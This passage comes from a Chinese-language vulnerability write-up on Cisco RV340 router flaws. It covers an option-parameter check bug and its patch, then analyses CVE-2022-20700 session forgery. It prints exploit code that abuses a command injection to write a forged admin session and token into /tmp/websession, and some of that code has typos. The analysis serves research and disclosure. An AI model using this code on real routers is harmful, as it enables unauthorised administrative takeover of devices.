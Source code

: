```c

------WebKitFormBoundary0qV1TDWAdjvfv83n--
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659791583955-212b9679-eb35-47ce-8aa7-3c1343482dcf.png)

注意`option`必须存在，哪怕为空都行，**<font style="color:#E8323C;">因为这里判断的是指针而不是其内容，厂商属于是判断了个寂寞</font>****：**

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659791628105-5fd03964-acdc-4807-bb0c-12af89769f99.png)

#### 漏洞封堵
最后我们来看一下最新版本是怎么修复这个漏洞的：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659792313059-df2121af-fcc8-499d-bcf0-6b06e854d9dd.png)

对参数进行限制，无话可说。

### ④、CVE-2022-20700（会话伪造）
#### 漏洞解析
![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659842678189-c31abbd1-f6c0-4436-827e-b392e11acd3f.png)

sessionid是有时效的，但是我们可通过命令执行漏洞上传恶意的脚本文件来伪造sessionid，脚本如下：

```shell
fake_username = "Cyberangel"
admin_sessionid =base64.encode64("#{fake_username}/#{http.local_address}/#{uptime_seconds}").gsub("\n","")
websessions = % Q[{
    "max-count":1,
    "#{fake_username}" :{
        "#{admin_sessionid}":{
        "user":"#{fake_username}",
        "group" :"admin",
        "time" :#{uptime_seconds},
        "access" : 1,
        "timeout" :1800,
        "leasetime" :0
        }
    }
}]

websessions.gsub!("\n", "\\n")
result = cisco_rv340_wwwdata_command_injection(http, "echo -n -e#{websessions} > /tmp/websession/session; echo -n 1")
if (result.nil ? or result.to_i != 1)
    $stdout.puts("[-] Failedcreate /tmp/websession/session") if @verbose
    return nil
end
result = cisco_rv340_wwwdata_command_injection(http, "touch/tmp/websession/token/#{admin_sessionid}; echo -n 1") 
```
